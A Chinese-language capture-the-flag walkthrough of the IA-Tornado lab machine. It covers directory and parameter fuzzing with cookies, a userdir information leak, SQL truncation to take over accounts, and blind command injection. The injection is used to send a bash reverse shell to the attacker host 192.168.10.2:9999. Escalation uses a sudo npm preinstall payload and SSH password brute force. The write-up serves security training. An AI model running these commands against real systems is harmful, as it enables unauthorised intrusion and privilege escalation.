# 前言

靶机：`IA-Tornado`，IP地址为`192.168.10.11`

攻击：`kali`，IP地址为`192.168.10.2`

都采用虚拟机，网卡为桥接模式

# 主机发现

因为是下载靶机到本地，所以是同一局域网，同一网段，同一网卡下，所以为求速度可以使用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`

若想要模拟真实环境，可以使用`nmap`



# 信息收集

## 使用nmap扫描端口



## 网站信息探测

访问80端口默认界面，发现是`apachee2`的默认界面，查看页面源代码也未发现内容



尝试进行目录爆破

使用`gobuster、dirsearch、dirb、dirbuster、ffuf`等工具进行爆破

```shell
gobuster dir -u http://192.168.10.11 -w /usr/share/wordlists/dirb/big.txt -x php,html,txt,md -d -b 404,403
```



发现一个路径`bluesky`，其他路径无可用，访问这个路径，发现是一个前端页面，不知道这种有没有和后端交互


哇，这个界面真的很像现在大部分的网站，都是前后端分离的，不过这里的靶场不确定是否也是，所以对这个路径再进行一次扫描，可以看到还是有后端的语言`php`

```shell
gobuster dir -u http://192.168.10.11/bluesky -w /usr/share/wordlists/dirb/big.txt -x php,html,txt,md
```



或者借助浏览器插件`wappalyzer`也是可以发现编程语言的，这里若是发现后，就可以再使用目录爆破了



访问上面扫描出的路径，通过上面也可以看到，可用的路径两个，一个`login.php`一个`signup.php`

访问`login.php`

# 漏洞寻找

尝试输入一些弱密码、万能密码等操作，无法登录成功



再访问`signup.php`，发现输入后，会直接提示注册成功信息



以注册的信息进行访问`login.php`，并输入注册的信息进行登录



在点击`portfolio`时，出现下面字符，说是`LFI`漏洞被修复了，但是不要忘记再测试

其实这里点击功能点后，都未发现其他的利用，不过这里是`php`，所以测试是否有隐藏传参支持本地文件包含等，也就是进行爆破



这里先查看每个功能点的页面源代码，在`portfolio`这里的页面源代码中，出现敏感目录信息



这里假设不知道这个路径，对每个`php`文件进行路径测试，可以使用`ffuf`或`wfuzz`

不过这里需要先获取正在登录状态的用户的`cookie`才行，可以直接使用浏览器查看登录的`cookie`

以火狐浏览器为例，打开开发者工具，可按`f12`进入



或者利用工具`curl`

```shell
curl -X POST -d "uname=admin&upass=admin&btn=Login" http://192.168.10.11/bluesky/login.php -c c.txt
#-X选择请求方式，这里可以在查看页面源代码处发现，表单提交是POST
#-d 是POST请求体中的数据，这里的数据形式，可以借助浏览器中开发者工具，其中的网络模块，可以发现请求形式
#-c 把cookie保存在当前目录的c.txt文档中
```

查看`c.txt`即可发现`cookie`的名称以及值



这里获取到`cookie`了，那么为什么确定`cookie`才可以呢，这里以`ffuf`为例，查看返回

```shell
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://192.168.10.11/bluesky/port.php
#这是未设置爆破时的，并且未给予`cookie`
```



上面的返回与目录爆破时一样，都是要`302`跳转的。

再以添加`cookie`后的返回为对比

```shell
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://192.168.10.11/bluesky/port.php -H "Cookie:PHPSESSID=kmpfqldt8iqc6ps0cfklotvglv"
```



可以看到，指定`cookie`后，就可以直接访问了，所以这也是以`cookie`做身份验证的

那么尝试使用`ffuf`进行测试，当然使用`burp`抓包爆破，就通过数据包直接爆破即可，因为请求数据包中含有登录的`cookie`信息

不过这里字典跑了很久，并未获取到任何传参等信息，并且登录后的几个`php`都测试了

```shell
ffuf -c -w /usr/share/wordlists/dirb/common.txt:FUZZ1 -w /usr/share/wordlists/wfuzz/Injections/Traversal.txt:FUZZ2 -u http://192.168.10.11/bluesky/port.php?FUZZ1=FUZZ2 -H "Cookie:PHPSESSID=kmpfqldt8iqc6ps0cfklotvglv" -fs 2205
```


```shell
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://192.168.10.11/bluesky/port.php?FUZZ=/home/tornado/imp.txt -H "Cookie:PHPSESSID=kmpfqldt8iqc6ps0cfklotvglv" -fs 2205
```

啧，已知的信息大概就这么多，这里难道不是通过传参进行文件包含的吗

给出的路径`/home/tornado/imp.txt`

# 信息泄露

分析这个路径，一般`/home`是存放用户的家目录，而其目录下的一般都是用户，就假设这里的路径就是家目录。表示存在用户`tornado`。那么之前nmap扫描的时候，目标为`linux`，是否可以确定这个路径具有多种表现方式

```shell
/home/tornado/imp.txt
~/imp.txt		#这里表示当前用户家目录下的imp.txt
~tornado/imp.txt	#这里表示用户tornado家目录下的imp.txt
#一般  ~  后加用户名，表示某用户的家目录
```

分析来看，一般网站的用户都是`www-data`，并且主目录不是在`/home`的，并且这里测试`php`文件有无传参，并未发现，说明确实修复了， 不过假设不通过传参呢，直接通过网址进行访问进行测试

当前的网址路径有两个，其余可以直接看到的，无意义

```shell
http://192.168.10.11
http://192.168.10.11/bluesky
```

把这两个`url`与上面三个路径进行组合

```shell
http://192.168.10.11/home/tornado/imp.txt
http://192.168.10.11/~/imp.txt
http://192.168.10.11/~tornado/imp.txt
http://192.168.10.11/bluesky/home/tornado/imp.txt
http://192.168.10.11/bluesky/~/imp.txt
http://192.168.10.11/bluesky/~tornado/imp.txt
```

然后使用`ffuf`测试哪些有返回



发现`url`中`http://192.168.10.11/~tornado/imp.txt`有返回，访问查看，发现全是邮箱地址



之前在进行登录的时候，用户名处就是邮箱，测试这些用户名是否存在

```shell
ceo@tornado
cto@tornado
manager@tornado
hr@tornado
lfi@tornado
admin@tornado
jacob@tornado
it@tornado
sales@tornado
```

在`signup.php`这里可以测试是否存在，不存在就会像之前一样，提示注册成功

使用`burp`抓取注册时的数据包，然后进行爆破



攻击成功后进行查看，因为这里使用的是`burp`社区版，所以不能直接进行搜索结果，不过可以在设置中配置匹配，这里用户已注册会返回`User already registered`，以这个进行匹配，就可以清晰的看清了



这里去网站看了一下，这个13是指长度，不过这里长度限制是在表单输入，和我通过抓包修改有什么关系，我已经不受表单控制了，😄

其实主要是观察这三个账户

```shell
admin@tornado
jacob@tornado
hr@tornado
```

不过前面既然注册了，使用`burp`再验证一下，奇怪的点出现了，前面`manager`注册成功的，这里确登录不了



# 分析为sql截断

前往浏览器进行手工测试，发现长度限制，那么前面注册的是什么，分析一下，在浏览器进行注册，也是有长度限制的，我是通过`burp`绕过这个前端的长度限制。

那么，通过`burp`注册的账户，到了数据库怎么处理的，或者说没到数据库的时候经过什么处理了。

直接输入长度限制的账号`manager@torna`，啧，登录成功了

好家伙，说明这里前端的长度限制和`sql`是一样的，或者说前端是可修改长度，`sql`是进行截断操作

这里长度限制为13，那么通过这种形式，测试`sql`在进行截断的时候，是否还进行数据库中用户的检验，若没有，就可以存在多个用户了，尤其是空格之类的。

```
admin@tornado a
jacob@tornado a
hr@tornado    a
```



之后直接登录`admin@tornado`，以及注册的密码，发现直接登录成功，但是查看这个功能点，还是不行



再换一个注册`jacob@tornado a`，然后以`jacob@tornado`登录，好嘛，这里可以看到了



发现这里输入什么就会返回什么，这不就是很好的`xss`吗，但是这里要`xss`还有什么用吗，都已经登录了，尝试试试输入一些命令，看其能否执行

# 命令注入

经过测试，输入`id、ls`等，直接返回这些字符，不过，我这里测试一下`ping`的时候，发现问题。

我刚开始直接输入`ping 127.0.0.1`，因为是`linux`界面，所以一直在加载，那么，大概就清楚了。然后我把靶机重启了，然后重新验证，只发送5个包，`ping -c 127.0.0.1`，发现真的有变化，确定是可以执行命令，只是不把回显返回



尝试进行`shell`反弹，先在`kali`中使用`nc`开启监听9999端口，然后输入下面命令，并执行

```shell
/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'
```



# 提权

## 提权至catchme用户

使用`find`寻找具有SUID权限的文件，发现`sudo`，直接尝试，发现不需要密码，有一个用户`catchme`的文件可执行

```shell
find / -perm -4000 -print 2>/dev/null
```



对于不知道`npm`的`sudo`提权，可以查看网站`gtfobins.github.io`中的帮助



```shell
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
chmod 777 tmp.Veh2PZ0bMR
sudo -u catchme npm -C $TF --unsafe-perm i
```



使用`dpkg`查看`python`版本，然后使用`python`获取交互式界面

```shell
dpkg -l | grep python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



## 提权至root用户

查看这个用户的家目录



把代码中已经加密的那一串尝试进行分析，因为执行过这个脚本，发现不知道输入什么字符加密了。

不过这里可以通过源代码给进行反写，不会写代码就直接丢给`ai`，这里可以提供代码

```python
import string

# 待解密的加密字符串
encrypted_text = "hcjqnnsotrrwnqc"

for key in string.printable:
    if len(key) > 1:
        continue
    s = "abcdefghijklmnopqrstuvwxyz"
    s = s.replace(key, '')
    s = key + s
    decrypted_text = ""
    for n in encrypted_text:
        j = ord(n)
        if j == ord(key):
            j = ord('a')
            decrypted_text += chr(j)
        elif n > 'a' and n <= key:
            j = j + 1
            decrypted_text += chr(j)
        elif n > key:
            decrypted_text += n
        elif ord(n) == 32:
            decrypted_text += chr(32)
        elif j >= 48 and j <= 57:
            decrypted_text += chr(j)
        elif j >= 33 and j <= 47:
            decrypted_text += chr(j)
        elif j >= 58 and j <= 64:
            decrypted_text += chr(j)
        elif j >= 91 and j <= 96:
            decrypted_text += chr(j)
        elif j >= 123 and j <= 126:
            decrypted_text += chr(j)
    print(decrypted_text)
```

然后执行这个脚本，把结果重定向到一个文件中



其实数据不多，查看一下，就发现一个引人`idkrootpassword`

把结果进行一个`ssh`爆破，针对`root`，因为已知的两个用户都用过了



查看最终文件




# 总结

该靶机主要考察以下几点

1. 对于网站路径，以及本地文件包含的注入点测试
2. 对于`linux`中`~`表示什么意思，以及`~用户`表示什么意思，以及`/home`是存放什么的
3. 对于`sql`截断注入的了解，要测试后，才能知道，这里就是观察到注册成功，但是无法成功登录的情况进行具体分析
4. 对于输入框，输入什么返回什么，若是未登录状态，使用`xss`可行，当然，实际情况中，若是真有，可以构造链接，发送给别人。这里是要获取`shell`，所以测试命令注入方面。虽然没有回显，但是在执行需要时间的命令时，明显发现是可执行命令的
5. 对于`sudo`提权的一些方法，这里是`npm`
6. 对于`python`代码，或者能获取到关键信息也行，现在`ai`发展迅速，可以通过`ai`直接写出逆向解密的代码


